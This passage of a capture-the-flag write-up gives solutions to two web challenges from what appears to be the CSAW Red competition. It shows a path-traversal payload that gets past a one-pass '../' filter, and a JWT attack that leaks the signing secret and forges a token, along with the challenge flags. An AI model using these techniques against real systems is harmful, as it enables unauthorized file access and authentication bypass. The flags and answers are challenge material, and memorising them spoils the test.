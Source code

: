 ## Flag
```
flag{that_one_was_a_bit_harder_but_there_is_one_more...}
```

# web - traverse 3
> Go now, traverse again again. The flag is at `/flag.txt`.
>
> http://web.red.csaw.io:5003

## Files
- index.js

## Solution
Now `../` is filtered out, but in a linear fashion. Submit

```
..././..././..././..././..././..././..././flag.txt
```

to get the flag.

## Flag
```
flag{I_must_yield_you_have_proven_yourself_a_dedicated_hacker}
```

# web - jwt
> you'll never get access to the flag!
>
> http://web.red.csaw.io:5013

## Files
- app&#46;py

## Solution
We can request access to any file that isn't flag.txt. However, note that the JWT secret is stored at `static/secret.txt`. After requesting access to `secret.txt`, we can read the secret key, which is `super_secret_k3y`. Now we just need to sign our own JWT to give us access to `flag.txt`.

```json
header
{
  "alg": "HS256",
  "typ": "JWT"
}
payload
{
  "filename": "flag.txt"
}
```
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmaWxlbmFtZSI6ImZsYWcudHh0In0.HbdszJEzWms5E81eENfvaIore8viKKT6U-B2gB59g3o
```
